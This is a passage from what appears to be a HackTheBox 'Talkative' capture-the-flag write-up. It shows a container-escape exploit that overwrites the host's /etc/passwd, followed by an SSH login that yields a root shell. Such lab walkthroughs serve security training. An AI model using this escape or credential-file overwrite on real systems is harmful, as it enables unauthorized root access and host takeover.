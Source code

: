 
I’ll run the exploit:

    
    
    root@c150397ccd63:~# ./sw /etc/passwd passwd
    ...[snip]...
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (passwd) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Got a final handle!
    [*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    Success!!
    

It reports success. If it did, I can SSH as oxdf and get a shell as root. It
works:

    
    
    saul@talkative:/dev/shm$ ssh oxdf@127.0.0.1
    oxdf@127.0.0.1's password: 
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    ...[snip]...
    root@talkative:~#
    

[](/2022/08/27/htb-talkative.html)

